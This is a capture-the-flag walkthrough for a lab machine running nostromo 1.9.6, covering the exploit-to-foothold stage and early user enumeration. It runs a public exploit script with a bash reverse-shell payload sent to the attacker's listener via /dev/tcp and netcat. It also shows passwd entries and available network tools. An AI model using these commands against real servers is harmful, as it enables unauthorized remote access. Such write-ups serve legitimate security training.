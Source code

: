 The nmap scans show that the webserver is **nostromo 1.9.6**. Checked searchsploit for that version. 

![searchsploit](searchsploit.png)

 ==> Yep there is an exploit! :clap: 

I took a copy of the exploit. However, I had to modify the exploit very slightly: comment out one line. Change one string to `bytes(____,'utf-8')` encoding 

Next, I opened the firewall, set up a listener, and ran the exploit as follows:

```bash
sudo ufw allow from 10.10.10.165 to any port 4444 proto tcp
bash
nc -lvnp 4444
```

```bash
python3 ./47837.py 10.10.10.165 80 "bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'"
```

:tada: Got a reverse shell. 



## USER FLAG

### User: www-data

In an effort to keep this walkthrough brief, I'll only discuss the notable results of user enumeration. To read about my whole user enumeration strategy in detail, please see [this page](/strategy/user-enumeration-linux).

- Important users are `www-data`, `david`, and `root`:

  ```
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  root:x:0:0:root:/root:/bin/bash
  sync:x:4:65534:sync:/bin:/bin/sync
  david:x:1000:1000:david,,,:/home/david:/bin/bash
  ```

- Lots of useful tools are already on the box:

  ```bash
  which nc netcat socat curl wget python perl php
  /usr/bin/nc
  /usr/bin/netcat
  /usr/bin/wget
  /usr/bin/python
  /usr/bin/perl
  ```

- `netstat -tulpn` revealed that ONLY port 22 and 80 are listening.

- Linpeas found the following hash of a credential:

  ![linpeas credential](linpeas%20credential.png)
